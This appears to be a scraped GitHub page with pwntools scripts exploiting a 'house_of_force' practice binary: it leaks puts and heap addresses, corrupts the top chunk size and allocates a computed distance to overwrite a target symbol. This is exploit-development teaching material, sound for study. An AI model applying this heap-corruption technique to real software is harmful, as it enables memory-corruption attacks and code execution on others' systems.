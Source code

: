 ```python
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path} ,gdbscript=gs)
    else:
        return process(elf.path)
    
def malloc(io, size, data):
    io.recvuntil(b'> ')
    io.send(b'1')
    io.recvuntil(b'size: ')
    io.send(f'{size}'.encode())
    io.recvuntil(b'data: ')
    io.send(data)
 
def delta(x, y):
    return (0xffffffffffffffff - x) + y
    
io = start()

io.recvuntil(b'puts() @ ')
puts_leak = int(io.recvn(14), 16) 
io.recvuntil(b'heap @ ')
heap_leak = int(io.recvn(8), 16)
info("The address of puts:: "+ hex(puts_leak))
info("The address of heap: " + hex(heap_leak))
distance = delta(heap_leak + 0x20, elf.sym['target'] - 0x20)
malloc(io, 24, b'a'*24 + p64(0xffffffffffffffff))
malloc(io, distance, b'oke')
malloc(io, 24, b'You win')

io.interactive() 
```

***shell.py***
```python
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_force', checksec=False)

libc = elf.libc

gs = """
b *main
b *main+295
b *main+448
"""

def info(mes):
    return log.info(mes)
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)
    
def malloc(io, size, data):
    io.recvuntil(b'> ')
    io.send(b'1')
    io.recvuntil(b'size: ')
    io.send(f'{size}'.encode())
    io.recvuntil(b'data: ')
    io.send(data)
```